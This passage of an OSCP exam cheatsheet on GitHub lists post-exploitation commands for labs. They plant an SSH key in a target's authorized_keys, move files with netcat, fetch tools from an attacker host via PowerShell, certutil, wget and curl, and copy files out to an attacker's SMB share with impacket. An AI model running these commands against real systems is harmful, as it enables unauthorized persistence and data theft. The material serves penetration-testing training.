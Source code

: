 ## Adding SSH Public key

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#adding-ssh-public-key)

- This can be used to get ssh session, on target machine which is based on linux

```js
ssh-keygen -t rsa -b 4096 #give any password

#This created both id_rsa and id_rsa.pub in ~/.ssh directory
#Copy the content in "id_rsa.pub" and create ".ssh" directory in /home of target machine.
chmod 700 ~/.ssh
nano ~/.ssh/authorized_keys #enter the copied content here
chmod 600 ~/.ssh/authorized_keys 

#On Attacker machine
ssh username@target_ip #enter password if you gave any
```

## File Transfers

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#file-transfers)

- Netcat

```shell
#Attacker
nc <target_ip> 1234 < nmap

#Target
nc -lvp 1234 > nmap
```

- Downloading on Windows

```powershell
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
iwr -uri http://lhost/file -Outfile file
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
copy \\kali\share\file .
```

- Downloading on Linux

```powershell
wget http://lhost/file
curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

### Windows to Kali

[](https://github.com/peterrakolcza/OSCP-Cheatsheet#windows-to-kali)

```powershell
kali> impacket-smbserver -smb2support <sharename> .
win> copy file \\KaliIP\sharename
```
